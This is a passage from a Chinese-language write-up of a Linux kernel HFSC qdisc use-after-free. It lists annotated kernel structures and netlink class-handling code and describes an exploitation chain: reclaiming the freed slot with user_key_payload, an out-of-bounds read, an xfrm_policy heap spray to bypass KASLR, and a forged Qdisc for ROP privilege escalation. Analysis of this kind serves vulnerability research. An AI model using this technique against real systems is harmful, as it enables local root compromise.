        unsigned int min_limit;         /* 最小限制 */
        unsigned int slack_hold_time;   /* 松弛保持时间 */
        unsigned short stall_max;       /* 最大停滞 */
        unsigned long last_reap;        /* 上次回收 */
        unsigned long stall_cnt;        /* 停滞计数 */
    } dql;                              /* 动态队列限制 */
    spinlock_t _xmit_lock;              /* 发送锁 */
    int xmit_lock_owner;                /* 发送锁持有者 */
    unsigned long trans_start;          /* 传输开始时间 */
    unsigned long state;                /* 状态 */
    struct napi_struct *napi;           /* NAPI 结构 */
    int numa_node;                      /* NUMA 节点 */
};
```

##### 2-3-3-3. sk_buff

`sk_buff` 是数据包对象，贯穿入队与出队路径。其 `next`、`prev` 字段用于 qdisc 队列的链表链接，`len` 字段用于 `backlog` 统计，`cb` 控制块用于存储 qdisc 私有数据。

```c
struct sk_buff {
    union {
        struct {
            struct sk_buff *next;       /* 下一个 skb */
            struct sk_buff *prev;       /* 上一个 skb */
            union {
                struct net_device *dev; /* 设备指针 */
                unsigned long dev_scratch;
                                        /* 设备暂存 */
            };
        };
        struct rb_node {
            unsigned long __rb_parent_color;
                                        /* 父指针与颜色 */
            struct rb_node *rb_right;   /* 右孩子 */
            struct rb_node *rb_left;    /* 左孩子 */
        } rbnode;                       /* 红黑树节点 */
        struct list_head {
            struct list_head *next;     /* 下一项 */
            struct list_head *prev;     /* 上一项 */
        } list;                         /* 链表节点 */
        struct llist_node {
            struct llist_node *next;    /* 下一项 */
        } ll_node;                      /* 无锁链表节点 */
    };
    struct sock *sk;                    /* 套接字 */
    union {
        ktime_t tstamp;                 /* 时间戳 */
        u64 skb_mstamp_ns;              /* 单调时间戳 */
    };
    char cb[48];                        /* 控制块 */
    union {
        struct {
            unsigned long _skb_refdst;  /* 引用目标 */
            void (*destructor)(struct sk_buff *);
                                        /* 析构函数 */
        };
        struct list_head {
            struct list_head *next;     /* 下一项 */
            struct list_head *prev;     /* 上一项 */
        } tcp_tsorted_anchor;           /* TCP 排序锚点 */
        unsigned long _sk_redir;        /* 套接字重定向 */
    };
    unsigned long _nfct;                /* netfilter 连接跟踪 */
    unsigned int len;                   /* 数据长度 */
    unsigned int data_len;              /* 数据长度 */
    __u16 mac_len;                      /* MAC 长度 */
    __u16 hdr_len;                      /* 头部长度 */
    __u16 queue_mapping;                /* 队列映射 */
    __u8 __cloned_offset[0];            /* 克隆偏移 */
    __u8 cloned : 1;                    /* 已克隆 */
    __u8 nohdr : 1;                     /* 无头部 */
    __u8 fclone : 2;                    /* 快速克隆 */
    __u8 peeked : 1;                    /* 已窥视 */
    __u8 head_frag : 1;                 /* 头部片段 */
    __u8 pfmemalloc : 1;                /* 页面内存分配 */
    __u8 pp_recycle : 1;                /* 页面池回收 */
    __u8 active_extensions;             /* 活跃扩展 */
    union {
        struct {
            __u8 __pkt_type_offset[0];  /* 包类型偏移 */
            __u8 pkt_type : 3;          /* 包类型 */
            __u8 ignore_df : 1;         /* 忽略 DF */
            __u8 dst_pending_confirm : 1;
                                        /* 目标待确认 */
            __u8 ip_summed : 2;         /* IP 校验和 */
            __u8 ooo_okay : 1;          /* 乱序允许 */
            __u8 __mono_tc_offset[0];   /* 单调时间戳偏移 */
            __u8 tstamp_type : 2;       /* 时间戳类型 */
            __u8 tc_at_ingress : 1;     /* tc 在入向 */
            __u8 tc_skip_classify : 1;  /* tc 跳过分类 */
            __u8 remcsum_offload : 1;   /* 远程校验和卸载 */
            __u8 csum_complete_sw : 1;  /* 软件校验和完成 */
            __u8 csum_level : 2;        /* 校验和级别 */
            __u8 inner_protocol_type : 1;
                                        /* 内层协议类型 */
            __u8 l4_hash : 1;           /* L4 哈希 */
            __u8 sw_hash : 1;           /* 软件哈希 */
            __u8 wifi_acked_valid : 1;  /* WiFi 确认有效 */
            __u8 wifi_acked : 1;        /* WiFi 确认 */
            __u8 no_fcs : 1;            /* 无 FCS */
            __u8 encapsulation : 1;     /* 封装 */
            __u8 encap_hdr_csum : 1;    /* 封装头部校验和 */
            __u8 csum_valid : 1;        /* 校验和有效 */
            __u8 ndisc_nodetype : 2;    /* 邻居发现节点类型 */
            __u8 ipvs_property : 1;     /* IPVS 属性 */
            __u8 nf_trace : 1;          /* netfilter 跟踪 */
            __u8 offload_fwd_mark : 1;  /* 卸载转发标记 */
            __u8 offload_l3_fwd_mark : 1;
                                        /* 卸载 L3 转发标记 */
            __u8 redirected : 1;        /* 已重定向 */
            __u8 from_ingress : 1;      /* 来自入向 */
            __u8 nf_skip_egress : 1;    /* netfilter 跳过出向 */
            __u8 decrypted : 1;         /* 已解密 */
            __u8 slow_gro : 1;          /* 慢速 GRO */
            __u8 csum_not_inet : 1;     /* 校验和非 INET */
            __u8 unreadable : 1;        /* 不可读 */
            __u16 tc_index;             /* tc 索引 */
            u16 alloc_cpu;              /* 分配 CPU */
            union {
                __wsum csum;            /* 校验和 */
                struct {
                    __u16 csum_start;   /* 校验和起始 */
                    __u16 csum_offset;  /* 校验和偏移 */
                };
            };
            __u32 priority;             /* 优先级 */
            int skb_iif;                /* 输入接口索引 */
            __u32 hash;                 /* 哈希 */
            union {
                u32 vlan_all;           /* VLAN 全部 */
                struct {
                    __be16 vlan_proto;  /* VLAN 协议 */
                    __u16 vlan_tci;     /* VLAN TCI */
                };
            };
            union {
                unsigned int napi_id;   /* NAPI ID */
                unsigned int sender_cpu;
                                        /* 发送者 CPU */
            };
            __u32 secmark;              /* 安全标记 */
            union {
                __u32 mark;             /* 标记 */
                __u32 reserved_tailroom;
                                        /* 保留尾部空间 */
            };
            union {
                __be16 inner_protocol;  /* 内层协议 */
                __u8 inner_ipproto;     /* 内层 IP 协议 */
            };
            __u16 inner_transport_header;
                                        /* 内层传输头 */
            __u16 inner_network_header;
                                        /* 内层网络头 */
            __u16 inner_mac_header;     /* 内层 MAC 头 */
            __be16 protocol;            /* 协议 */
            __u16 transport_header;     /* 传输头 */
            __u16 network_header;       /* 网络头 */
            __u16 mac_header;           /* MAC 头 */
        };
        struct {
            __u8 __pkt_type_offset[0];  /* 包类型偏移 */
            __u8 pkt_type : 3;          /* 包类型 */
            __u8 ignore_df : 1;         /* 忽略 DF */
            __u8 dst_pending_confirm : 1;
                                        /* 目标待确认 */
            __u8 ip_summed : 2;         /* IP 校验和 */
            __u8 ooo_okay : 1;          /* 乱序允许 */
            __u8 __mono_tc_offset[0];   /* 单调时间戳偏移 */
            __u8 tstamp_type : 2;       /* 时间戳类型 */
            __u8 tc_at_ingress : 1;     /* tc 在入向 */
            __u8 tc_skip_classify : 1;  /* tc 跳过分类 */
            __u8 remcsum_offload : 1;   /* 远程校验和卸载 */
            __u8 csum_complete_sw : 1;  /* 软件校验和完成 */
            __u8 csum_level : 2;        /* 校验和级别 */
            __u8 inner_protocol_type : 1;
                                        /* 内层协议类型 */
            __u8 l4_hash : 1;           /* L4 哈希 */
            __u8 sw_hash : 1;           /* 软件哈希 */
            __u8 wifi_acked_valid : 1;  /* WiFi 确认有效 */
            __u8 wifi_acked : 1;        /* WiFi 确认 */
            __u8 no_fcs : 1;            /* 无 FCS */
            __u8 encapsulation : 1;     /* 封装 */
            __u8 encap_hdr_csum : 1;    /* 封装头部校验和 */
            __u8 csum_valid : 1;        /* 校验和有效 */
            __u8 ndisc_nodetype : 2;    /* 邻居发现节点类型 */
            __u8 ipvs_property : 1;     /* IPVS 属性 */
            __u8 nf_trace : 1;          /* netfilter 跟踪 */
            __u8 offload_fwd_mark : 1;  /* 卸载转发标记 */
            __u8 offload_l3_fwd_mark : 1;
                                        /* 卸载 L3 转发标记 */
            __u8 redirected : 1;        /* 已重定向 */
            __u8 from_ingress : 1;      /* 来自入向 */
            __u8 nf_skip_egress : 1;    /* netfilter 跳过出向 */
            __u8 decrypted : 1;         /* 已解密 */
            __u8 slow_gro : 1;          /* 慢速 GRO */
            __u8 csum_not_inet : 1;     /* 校验和非 INET */
            __u8 unreadable : 1;        /* 不可读 */
            __u16 tc_index;             /* tc 索引 */
            u16 alloc_cpu;              /* 分配 CPU */
            union {
                __wsum csum;            /* 校验和 */
                struct {
                    __u16 csum_start;   /* 校验和起始 */
                    __u16 csum_offset;  /* 校验和偏移 */
                };
            };
            __u32 priority;             /* 优先级 */
            int skb_iif;                /* 输入接口索引 */
            __u32 hash;                 /* 哈希 */
            union {
                u32 vlan_all;           /* VLAN 全部 */
                struct {
                    __be16 vlan_proto;  /* VLAN 协议 */
                    __u16 vlan_tci;     /* VLAN TCI */
                };
            };
            union {
                unsigned int napi_id;   /* NAPI ID */
                unsigned int sender_cpu;
                                        /* 发送者 CPU */
            };
            __u32 secmark;              /* 安全标记 */
            union {
                __u32 mark;             /* 标记 */
                __u32 reserved_tailroom;
                                        /* 保留尾部空间 */
            };
            union {
                __be16 inner_protocol;  /* 内层协议 */
                __u8 inner_ipproto;     /* 内层 IP 协议 */
            };
            __u16 inner_transport_header;
                                        /* 内层传输头 */
            __u16 inner_network_header;
                                        /* 内层网络头 */
            __u16 inner_mac_header;     /* 内层 MAC 头 */
            __be16 protocol;            /* 协议 */
            __u16 transport_header;     /* 传输头 */
            __u16 network_header;       /* 网络头 */
            __u16 mac_header;           /* MAC 头 */
        } headers;                      /* 头部信息 */
    };
    sk_buff_data_t tail;                /* 尾部 */
    sk_buff_data_t end;                 /* 结束 */
    unsigned char *head;                /* 头部指针 */
    unsigned char *data;                /* 数据指针 */
    unsigned int truesize;              /* 真实大小 */
    refcount_t users;                   /* 用户计数 */
    struct skb_ext *extensions;         /* 扩展 */
};
```

##### 2-3-3-4. sk_buff_head

`sk_buff_head` 是 skb 链表头，用于 `gso_skb` 等队列。其 `qlen` 字段记录队列中 skb 的数量，`next` 与 `prev` 构成双向链表。

```c
struct sk_buff_head {
    union {
        struct {
            struct sk_buff *next;       /* 下一个 skb */
            struct sk_buff *prev;       /* 上一个 skb */
        };
        struct sk_buff_list {
            struct sk_buff *next;       /* 下一个 skb */
            struct sk_buff *prev;       /* 上一个 skb */
        } list;                         /* 链表 */
    };
    __u32 qlen;                         /* 队列长度 */
    spinlock_t lock;                    /* 锁 */
};
```

网络设备与数据包结构体构成了漏洞的承载层。qdisc 的创建、替换与释放均通过网络设备的发送队列进行，数据包通过 skb 在 qdisc 之间流转。当 UAF 槽位形成后，需要通过 netlink 接口回收该槽位，这就涉及下一层次的 netlink 结构体。

#### 2-3-4. netlink 与配置接口

netlink 是用户态与内核态交互的接口。qdisc 与类的创建、修改、删除均通过 netlink 消息发起，其结构体承载了用户态传入的配置参数。

##### 2-3-4-1. nlmsghdr

`nlmsghdr` 是 netlink 消息头，承载消息类型与标志。`nlmsg_type` 区分 `RTM_NEWTCLASS`、`RTM_DELTCLASS` 等操作，`nlmsg_flags` 控制创建、排他等行为。

```c
struct nlmsghdr {
    __u32 nlmsg_len;    /* 消息长度 */
    __u16 nlmsg_type;   /* 消息类型 */
    __u16 nlmsg_flags;  /* 消息标志 */
    __u32 nlmsg_seq;    /* 序列号 */
    __u32 nlmsg_pid;    /* 发送者端口 ID */
};
```

##### 2-3-4-2. nlattr

`nlattr` 是 netlink 属性，用于承载嵌套配置参数。HFSC 的 RSC、FSC、USC 曲线参数均通过 nlattr 嵌套传递。

```c
struct nlattr {
    __u16 nla_len;      /* 属性长度 */
    __u16 nla_type;     /* 属性类型 */
};
```

##### 2-3-4-3. tcmsg

`tcmsg` 是流量控制消息，承载接口索引、句柄与父句柄。`tcm_ifindex` 指定网络设备，`tcm_handle` 与 `tcm_parent` 指定 qdisc 与类的层级关系。

```c
struct tcmsg {
    unsigned char tcm_family;   /* 协议族 */
    unsigned char tcm__pad1;    /* 填充 */
    unsigned short tcm__pad2;   /* 填充 */
    int tcm_ifindex;            /* 接口索引 */
    __u32 tcm_handle;           /* 句柄 */
    __u32 tcm_parent;           /* 父句柄 */
    __u32 tcm_info;             /* 信息 */
};
```

##### 2-3-4-4. netlink_ext_ack

`netlink_ext_ack` 承载 netlink 扩展错误信息，用于向用户态报告失败原因。

```c
struct netlink_ext_ack {
    const char *_msg;                   /* 错误消息 */
    const struct nlattr *bad_attr;      /* 错误属性 */
    const struct nla_policy *policy;    /* 策略 */
    const struct nlattr *miss_nest;     /* 缺失的嵌套属性 */
    u16 miss_type;                      /* 缺失类型 */
    u8 cookie[20];                      /* cookie */
    u8 cookie_len;                      /* cookie 长度 */
    char _msg_buf[80];                  /* 消息缓冲区 */
};
```

netlink 结构体构成了用户态与内核态之间的配置通道。通过 netlink 消息，用户态可以创建 `limit == 0` 的 qdisc，触发计数偏差。当 UAF 槽位形成后，需要通过红黑树与用户密钥对象回收该槽位，这就涉及下一层次的红黑树与 UAF 对象。

#### 2-3-5. 红黑树与 UAF 对象

红黑树是 UAF 形成的核心结构。`hfsc_class` 的 `el_node` 被双重插入后形成自引用，`hfsc_sched` 的 `eligible` 树根在类删除后成为悬空指针。用户密钥负载用于回收该 UAF 槽位。

##### 2-3-5-1. rb_node

`rb_node` 是红黑树节点。`hfsc_class` 的 `el_node` 即为此类型，其 `__rb_parent_color`、`rb_right`、`rb_left` 三个字段是双重插入的直接作用对象。

```c
struct rb_node {
    unsigned long __rb_parent_color;    /* 父指针与颜色 */
    struct rb_node *rb_right;           /* 右孩子 */
    struct rb_node *rb_left;            /* 左孩子 */
};
```

##### 2-3-5-2. rb_root

`rb_root` 是红黑树根。`hfsc_sched` 的 `eligible` 即为此类型，其 `rb_node` 字段在类删除后成为悬空指针。

```c
struct rb_root {
    struct rb_node *rb_node;    /* 根节点 */
};
```

##### 2-3-5-3. callback_head

`callback_head` 是 RCU 回调头，用于延迟释放对象。`Qdisc` 与 `xfrm_policy` 均包含此字段。

```c
struct callback_head {
    struct callback_head *next;                 /* 下一项 */
    void (*func)(struct callback_head *head);   /* 回调函数 */
};
```

##### 2-3-5-4. user_key_payload

`user_key_payload` 是用户密钥负载，用于回收 UAF 槽位。其 `datalen` 字段位于对象偏移 0x10 处，可通过红黑树写入原语放大，从而为越界读取提供条件。

```c
struct user_key_payload {
    struct callback_head rcu;   /* RCU 回调头 */
    unsigned short datalen;     /* 数据长度，可被红黑树写入原语放大 */
    char data[];                /* 数据柔性数组 */
};
```

红黑树与 UAF 对象构成了漏洞从内存破坏到信息泄露的桥梁。当 UAF 槽位被 `user_key_payload` 回收后，`datalen` 被放大，`keyctl_read()` 即可越界读取相邻对象。为了在相邻位置布置包含内核函数指针的 victim object，需要通过 XFRM 策略进行堆喷，这就涉及下一层次的 tcf 与 XFRM 策略。

#### 2-3-6. tcf 与 XFRM 策略

tcf 是流量控制过滤器框架，绑定于 qdisc 类。XFRM 策略是堆喷的 victim object，位于 kmalloc-1k，其 `timer.function` 字段指向内核函数，是 KASLR 绕过与后续权限提升的关键信息来源。

##### 2-3-6-1. tcf_block

`tcf_block` 是过滤器块，绑定于 qdisc 类，承载过滤器链。`hfsc_class` 的 `block` 字段即为此类型。

```c
struct tcf_block {
    struct xarray {
        spinlock_t xa_lock;         /* 锁 */
        gfp_t xa_flags;             /* 分配标志 */
        void *xa_head;              /* 头指针 */
    } ports;                        /* 端口 */
    struct mutex {
        atomic_long_t owner;        /* 所有者 */
        raw_spinlock_t wait_lock;   /* 等待锁 */
        struct optimistic_spin_queue {
            atomic_t tail;          /* 尾部 */
        } osq;                      /* 乐观自旋队列 */
        struct list_head {
            struct list_head *next; /* 下一项 */
            struct list_head *prev; /* 上一项 */
        } wait_list;                /* 等待链表 */
    } lock;                         /* 锁 */
    struct list_head {
        struct list_head *next;     /* 下一项 */
        struct list_head *prev;     /* 上一项 */
    } chain_list;                   /* 链链表 */
    u32 index;                      /* 索引 */
    u32 classid;                    /* 类 ID */
    refcount_t refcnt;              /* 引用计数 */
    struct net *net;                /* 网络命名空间 */
    struct Qdisc *q;                /* 关联 qdisc */
    struct rw_semaphore {
        atomic_long_t count;        /* 计数 */
        atomic_long_t owner;        /* 所有者 */
        struct optimistic_spin_queue {
            atomic_t tail;          /* 尾部 */
        } osq;                      /* 乐观自旋队列 */
        raw_spinlock_t wait_lock;   /* 等待锁 */
        struct list_head {
            struct list_head *next; /* 下一项 */
            struct list_head *prev; /* 上一项 */
        } wait_list;                /* 等待链表 */
    } cb_lock;                      /* 回调锁 */
    struct flow_block {
        struct list_head {
            struct list_head *next; /* 下一项 */
            struct list_head *prev; /* 上一项 */
        } cb_list;                  /* 回调链表 */
    } flow_block;                   /* 流块 */
    struct list_head {
        struct list_head *next;     /* 下一项 */
        struct list_head *prev;     /* 上一项 */
    } owner_list;                   /* 所有者链表 */
    bool keep_dst;                  /* 保留目标 */
    atomic_t useswcnt;              /* 软件使用计数 */
    atomic_t offloadcnt;            /* 卸载计数 */
    unsigned int nooffloaddevcnt;   /* 无卸载设备计数 */
    unsigned int lockeddevcnt;      /* 锁定设备计数 */
    struct {
        struct tcf_chain *chain;    /* 链 */
        struct list_head {
            struct list_head *next; /* 下一项 */
            struct list_head *prev; /* 上一项 */
        } filter_chain_list;        /* 过滤器链链表 */
    } chain0;                       /* 链 0 */
    struct callback_head {
        struct callback_head *next; /* 下一项 */
        void (*func)(struct callback_head *);
                                    /* 回调函数 */
    } rcu;                          /* RCU 回调头 */
    struct hlist_head proto_destroy_ht[128];
                                    /* 协议销毁哈希表 */
    struct mutex {
        atomic_long_t owner;        /* 所有者 */
        raw_spinlock_t wait_lock;   /* 等待锁 */
        struct optimistic_spin_queue {
            atomic_t tail;          /* 尾部 */
        } osq;                      /* 乐观自旋队列 */
        struct list_head {
            struct list_head *next; /* 下一项 */
            struct list_head *prev; /* 上一项 */
        } wait_list;                /* 等待链表 */
    } proto_destroy_lock;           /* 协议销毁锁 */
};
```

##### 2-3-6-2. xfrm_policy

`xfrm_policy` 是 XFRM 策略对象，位于 kmalloc-1k。其 `timer.function` 字段指向 `xfrm_policy_timer`，该函数指针位于内核代码段，其地址与内核基址之间为固定偏移。越界读取到该指针后，减去静态偏移即可还原内核基址，为后续构造 ROP 链并完成权限提升提供必要信息。

```c
struct xfrm_policy {
    possible_net_t xp_net;          /* 网络命名空间 */
    struct hlist_node {
        struct hlist_node *next;    /* 下一项 */
        struct hlist_node **pprev;  /* 前驱指针 */
    } bydst;                        /* 目的哈希节点 */
    struct hlist_node {
        struct hlist_node *next;    /* 下一项 */
        struct hlist_node **pprev;  /* 前驱指针 */
    } byidx;                        /* 索引哈希节点 */
    struct hlist_head {
        struct hlist_node *first;   /* 首项 */
    } state_cache_list;             /* 状态缓存链表 */
    rwlock_t lock;                  /* 读写锁 */
    refcount_t refcnt;              /* 引用计数 */
    u32 pos;                        /* 位置 */
    struct timer_list {
        struct hlist_node {
            struct hlist_node *next;
                                    /* 下一项 */
            struct hlist_node **pprev;
                                    /* 前驱指针 */
        } entry;                    /* 链表节点 */
        unsigned long expires;      /* 过期时间 */
        void (*function)(struct timer_list *);
                                    /* 定时器回调，指向 xfrm_policy_timer，
                                     * 是 KASLR 绕过的关键信息来源 */
        u32 flags;                  /* 标志 */
    } timer;                        /* 定时器 */
    atomic_t genid;                 /* 代数 ID */
    u32 priority;                   /* 优先级 */
    u32 index;                      /* 索引 */
    u32 if_id;                      /* 接口 ID */
    struct xfrm_mark {
        __u32 v;                    /* 值 */
        __u32 m;                    /* 掩码 */
    } mark;                         /* 标记 */
    struct xfrm_selector {
        xfrm_address_t daddr;       /* 目的地址 */
        xfrm_address_t saddr;       /* 源地址 */
        __be16 dport;               /* 目的端口 */
        __be16 dport_mask;          /* 目的端口掩码 */
        __be16 sport;               /* 源端口 */
        __be16 sport_mask;          /* 源端口掩码 */
        __u16 family;               /* 协议族 */
        __u8 prefixlen_d;           /* 目的前缀长度 */
        __u8 prefixlen_s;           /* 源前缀长度 */
        __u8 proto;                 /* 协议 */
        int ifindex;                /* 接口索引 */
        __kernel_uid32_t user;      /* 用户 */
    } selector;                     /* 选择器 */
    struct xfrm_lifetime_cfg {
        __u64 soft_byte_limit;      /* 软字节限制 */
        __u64 hard_byte_limit;      /* 硬字节限制 */
        __u64 soft_packet_limit;    /* 软包限制 */
        __u64 hard_packet_limit;    /* 硬包限制 */
        __u64 soft_add_expires_seconds;
                                    /* 软添加过期秒数 */
        __u64 hard_add_expires_seconds;
                                    /* 硬添加过期秒数 */
        __u64 soft_use_expires_seconds;
                                    /* 软使用过期秒数 */
        __u64 hard_use_expires_seconds;
                                    /* 硬使用过期秒数 */
    } lft;                          /* 生命周期配置 */
    struct xfrm_lifetime_cur {
        __u64 bytes;                /* 字节数 */
        __u64 packets;              /* 包数 */
        __u64 add_time;             /* 添加时间 */
        __u64 use_time;             /* 使用时间 */
    } curlft;                       /* 当前生命周期 */
    struct xfrm_policy_walk_entry {
        struct list_head {
            struct list_head *next; /* 下一项 */
            struct list_head *prev; /* 上一项 */
        } all;                      /* 全链表 */
        u8 dead;                    /* 死亡标记 */
    } walk;                         /* 遍历条目 */
    struct xfrm_policy_queue {
        struct sk_buff_head {
            union {
                struct {
                    struct sk_buff *next;
                                    /* 下一项 */
                    struct sk_buff *prev;
                                    /* 上一项 */
                };
                struct sk_buff_list {
                    struct sk_buff *next;
                                    /* 下一项 */
                    struct sk_buff *prev;
                                    /* 上一项 */
                } list;             /* 链表 */
            };
            __u32 qlen;             /* 队列长度 */
            spinlock_t lock;        /* 锁 */
        } hold_queue;               /* 持有队列 */
        struct timer_list {
            struct hlist_node {
                struct hlist_node *next;
                                    /* 下一项 */
                struct hlist_node **pprev;
                                    /* 前驱指针 */
            } entry;                /* 链表节点 */
            unsigned long expires;  /* 过期时间 */
            void (*function)(struct timer_list *);
                                    /* 定时器回调 */
            u32 flags;              /* 标志 */
        } hold_timer;               /* 持有定时器 */
        unsigned long timeout;      /* 超时 */
    } polq;                         /* 策略队列 */
    bool bydst_reinsert;            /* 目的重新插入 */
    u8 type;                        /* 类型 */
    u8 action;                      /* 动作 */
    u8 flags;                       /* 标志 */
    u8 xfrm_nr;                     /* XFRM 数量 */
    u16 family;                     /* 协议族 */
    struct xfrm_sec_ctx *security;  /* 安全上下文 */
    struct xfrm_tmpl xfrm_vec[6];   /* XFRM 模板数组 */
    struct callback_head {
        struct callback_head *next; /* 下一项 */
        void (*func)(struct callback_head *);
                                    /* 回调函数 */
    } rcu;                          /* RCU 回调头 */
    struct xfrm_dev_offload {
        struct net_device *dev;     /* 设备 */
        netdevice_tracker dev_tracker;
                                    /* 设备追踪器 */
        struct net_device *real_dev;
                                    /* 真实设备 */
        unsigned long offload_handle;
                                    /* 卸载句柄 */
        u8 dir : 2;                 /* 方向 */
        u8 type : 2;                /* 类型 */
        u8 flags : 2;               /* 标志 */
    } xdo;                          /* 设备卸载 */
};
```

tcf 与 XFRM 策略结构体构成了漏洞从内存破坏到信息泄露的最后一环。通过批量申请 `xfrm_policy` 填充 kmalloc-1k，越界读取即可扫描到相邻的 `xfrm_policy` 对象，读取其 `timer.function` 指针，从而计算内核基址。内核基址是后续构造 ROP 链、劫持控制流并最终完成权限提升的必要前提。

以上结构体共同构成了从 qdisc 与 HFSC 调度器、网络设备与数据包、netlink 配置接口、红黑树与 UAF 对象，到 tcf 与 XFRM 策略的完整数据层次，覆盖了漏洞触发与利用链条中涉及的各类内核对象。各层次之间通过字段引用与函数回调相互衔接，形成了从计数偏差到 UAF、再到 KASLR 绕过与权限提升的完整链条。

### 2-4. 关键函数

该漏洞的触发与利用涉及多个内核对象，包括 `hfsc_class`、`Qdisc`、`user_key_payload` 以及作为越界读取目标的 `xfrm_policy`。这些对象的申请、释放、入队与出队路径共同构成了从计数偏差到 UAF、再从 UAF 到 KASLR 绕过与权限提升的完整链条。其中，UAF 槽位服务于两个目的：一是被 `user_key_payload` 回收后用于越界读取，配合 `xfrm_policy` 堆喷完成 KASLR 绕过；二是被伪造的 `Qdisc` 回收后用于控制流劫持，最终完成权限提升。以下按对象生命周期分组，逐层展开各关键函数的实现与作用。

#### 2-4-1. 对象概述

该漏洞的触发与利用涉及以下内核对象：

- `hfsc_class`：UAF 的直接受害者，其 `el_node` 被双重插入后形成自引用；对象本身位于 kmalloc-1k。释放后形成的 UAF 槽位是后续 KASLR 绕过与权限提升的共同起点。
- `Qdisc`：类的默认叶 qdisc，其释放路径参与引用计数与 RCU 回收；具体 slab 缓存视类型而定，不作为堆喷的主要对象。在权限提升阶段，伪造的 `Qdisc` 被用于替代 `hfsc_class->qdisc`，其 `dequeue` 函数指针成为控制流转移的入口。
- `user_key_payload`：用于回收 UAF 槽位，其 `datalen` 字段位于对象偏移 0x10 处；通过红黑树写入原语放大该字段后，`keyctl_read()` 即可越界读取相邻对象，为 KASLR 绕过提供信息。
- `xfrm_policy`：堆喷的 victim object，位于 kmalloc-1k，内部包含 `timer.function` 等内核函数指针；越界读取到这些指针后即可计算内核基址，为后续构造 ROP 链、完成权限提升提供必要信息。

这些对象通过 netlink 接口与内核交互。`hfsc_class` 的申请与释放直接决定了 UAF 槽位的产生与回收时机；`Qdisc` 的释放路径影响叶队列资源的归还顺序，并在权限提升阶段提供控制流转移的目标；`user_key_payload` 负责回收 UAF 槽位并提供越界读取能力，服务于 KASLR 绕过；`xfrm_policy` 则作为被读取的 victim object，提供稳定的内核地址。

#### 2-4-2. hfsc_class

##### 2-4-2-1. 申请

`hfsc_class` 对象的申请入口位于 `tc_ctl_tclass()`，经由 `hfsc_change_class()` 完成实际分配。`tc_ctl_tclass()` 是 netlink 类操作的总入口，负责解析请求、定位 qdisc 并调用具体的类操作函数。

```c
static int tc_ctl_tclass(struct sk_buff *skb, struct nlmsghdr *n,
                         struct netlink_ext_ack *extack)
{
    struct net *net = sock_net(skb->sk);                 /* 获取当前网络命名空间 */
    struct tcmsg *tcm = nlmsg_data(n);                   /* 从 netlink 消息中提取 tcmsg 结构 */
    struct nlattr *tca[TCA_MAX + 1];                     /* 用于存放解析后的属性数组 */
    struct net_device *dev;                              /* 目标网络设备 */
    struct Qdisc *q = NULL;                              /* 找到的 qdisc 指针 */
    const struct Qdisc_class_ops *cops;                  /* qdisc 的类操作函数集 */
    unsigned long cl = 0;                                /* 已存在的类句柄 */
    unsigned long new_cl;                                /* 新建或修改后的类句柄 */
    u32 portid;                                          /* 父类 ID */
    u32 clid;                                            /* 类 ID */
    u32 qid;                                             /* qdisc 主句柄 */
    int err;                                             /* 错误码 */

    /* 解析 netlink 消息，提取 tcmsg 与属性到 tca 数组 */
    err = nlmsg_parse_deprecated(n, sizeof(*tcm), tca, TCA_MAX,
                                 rtm_tca_policy, extack);
    if (err < 0)
        return err;

    /* 根据接口索引查找对应的网络设备 */
    dev = __dev_get_by_index(net, tcm->tcm_ifindex);
    if (!dev)
        return -ENODEV;

    /*
       parent == TC_H_UNSPEC - 未指定父节点
       parent == TC_H_ROOT   - 类为根，无父节点
       parent == X:0         - 父节点为根类
       parent == X:Y         - 父节点为层次中的某个节点
       parent == 0:Y         - 父节点为 X:Y，其中 X:0 是 qdisc

       handle == 0:0         - 由内核池生成句柄
       handle == 0:Y         - 类为 X:Y，其中 X:0 是 qdisc
       handle == X:Y         - 清除
       handle == X:0         - 根类
     */

    /* 第一步：确定 qdisc 主句柄 X:0 */

    portid = tcm->tcm_parent;                            /* 父类 ID */
    clid = tcm->tcm_handle;                              /* 类句柄 */
    qid = TC_H_MAJ(clid);                                /* 提取类句柄的主部分 */

    if (portid != TC_H_ROOT) {                           /* 父节点不是根 */
        u32 qid1 = TC_H_MAJ(portid);                     /* 父节点的主部分 */

        if (qid && qid1) {
            /* 若两个主部分均已知，则必须相同，否则视为无效请求 */
            if (qid != qid1)
                return -EINVAL;
        } else if (qid1) {
            qid = qid1;                                  /* 使用父节点的主部分 */
        } else if (qid == 0)
            qid = rtnl_dereference(dev->qdisc)->handle;  /* 从设备根 qdisc 获取 */

        /* 此时 qid 是与父子均一致的 qdisc 句柄
         * TC_H_MAJ(portid) 可能仍未指定，现在补全
         */
        if (portid)
            portid = TC_H_MAKE(qid, portid);
    } else {
        if (qid == 0)
            qid = rtnl_dereference(dev->qdisc)->handle;
    }

    /* 根据 qid 查找对应的 qdisc */
    q = qdisc_lookup(dev, qid);
    if (!q)
        return -ENOENT;

    /* 检查该 qdisc 是否支持类操作 */
    cops = q->ops->cl_ops;
    if (cops == NULL)
        return -EINVAL;

    /* 尝试获取已存在的类 */
    if (clid == 0) {
        if (portid == TC_H_ROOT)
            clid = qid;                                  /* 根类使用 qdisc 主句柄 */
    } else
        clid = TC_H_MAKE(qid, clid);                     /* 构造完整的类 ID */

    if (clid)
        cl = cops->find(q, clid);                        /* 查找类 */

    if (cl == 0) {                                       /* 类不存在 */
        err = -ENOENT;
        if (n->nlmsg_type != RTM_NEWTCLASS ||
            !(n->nlmsg_flags & NLM_F_CREATE))
            goto out;                                    /* 非创建请求则返回错误 */
    } else {                                             /* 类已存在 */
        switch (n->nlmsg_type) {
        case RTM_NEWTCLASS:
            err = -EEXIST;
            if (n->nlmsg_flags & NLM_F_EXCL)
                goto out;                                /* 排他标志则返回已存在 */
            break;
        case RTM_DELTCLASS:
            err = tclass_del_notify(net, cops, skb, n, q, cl, extack); /* 删除类 */
            /* 解除类与过滤器的绑定 */
            tc_bind_tclass(q, portid, clid, 0);
            goto out;
        case RTM_GETTCLASS:
            err = tclass_get_notify(net, skb, n, q, cl, extack);       /* 获取类信息 */
            goto out;
        default:
            err = -EINVAL;
            goto out;
        }
    }

    if (tca[TCA_INGRESS_BLOCK] || tca[TCA_EGRESS_BLOCK]) {
        NL_SET_ERR_MSG(extack, "Shared blocks are not supported for classes");
        return -EOPNOTSUPP;
    }

    new_cl = cl;
    err = -EOPNOTSUPP;
    /* 调用具体 qdisc 的类操作函数，此处为 hfsc_change_class */
    if (cops->change)
        err = cops->change(q, clid, portid, tca, &new_cl, extack);
    if (err == 0) {
